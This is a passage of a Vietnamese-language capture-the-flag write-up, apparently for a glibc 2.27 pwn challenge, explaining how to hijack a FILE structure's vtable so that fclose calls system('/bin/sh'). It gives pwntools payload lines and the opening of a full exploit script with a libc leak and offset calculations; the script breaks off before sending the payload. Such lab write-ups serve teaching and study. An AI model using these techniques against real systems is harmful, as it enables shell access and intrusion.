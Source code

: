 payload += p64(0x0)*9
payload += p64(fake_vtable) # io_file_jump overwrite
payload += p64(system) # fp->_s._allocate_buffer RIP
```

Khi gọi _s._allocate_buffer, new_size được sử dụng làm đối số trước tiên phải được thao tác thành địa chỉ của chuỗi “/bin/sh”. Vì new_size là một biến được tính theo công thức bên dưới, nên chỉ cần ghi đè _IO_buf_end bằng địa chỉ “/bin/sh” và _IO_buf_base bằng 0.

ngoài ra ta cùng có thể thấy _IO_write_ptr được đặt giống với _IO_buf_end nhằm thõa điều kiện so sánh trong tóm tắt.


lúc này fclose(fp) được gọi :
fclose gọi nội bộ hàm _IO_FINISH, hàm này cũng tồn tại trong phần __libc_IO_vtables. Nếu hàm fclose thao tác địa chỉ vtable của cấu trúc tệp để tham chiếu đến hàm IO_str_overflow trước khi tham chiếu đến hàm _IO_FINISH, thì có thể lấy được shell bằng cách thao tác con trỏ hàm được gọi trong hàm với system.

```
fake_vtable = io_str_overflow - 16
```
sở dĩ -16 là vì ghi gọi _IO_FINISH bên trong fclose thì tại địa chỉ của vtable +16 được gọi

vậy khi đó , ta sẽ gọi đúng thằng io_str_overflow đc gọi khi _IO_FINISH được gọi

```
payload += p64(fp + 0x80) # _lock
payload += p64(0x0)*9
payload += p64(fake_vtable) # io_file_jump overwrite
payload += p64(system) # fp->_s._allocate_buffer RIP
```

cuối cùng , fp-> _s.allocate_buffer là vị trí của vtable + 0x8 bytes nên system sẽ dc nhập sau fake_vtable như trên . 

Ngoài ra, _lock có thể được chỉ định ở bất kỳ đâu trong vùng có thể ghi.


fullscript :

```

#!/usr/bin/env python3

from pwn import *

exe = ELF("./bypass_valid_vtable_patched")
libc = ELF("./libc.so.6")
ld = ELF("./ld-2.27.so")

context.binary = exe
p = process()
p.recvuntil(b'stdout: ')
leak = int(p.recvline()[:-1],16)
print("stdout: ",hex(leak))
libc.address = leak - libc.sym._IO_2_1_stdout_
io_files_jumps = libc.address + 0x3e82a0
io_str_overflow = io_files_jumps + 0xd8
fake_vtable = io_str_overflow -  16
bin_sh = next(libc.search('/bin/sh\x00'))
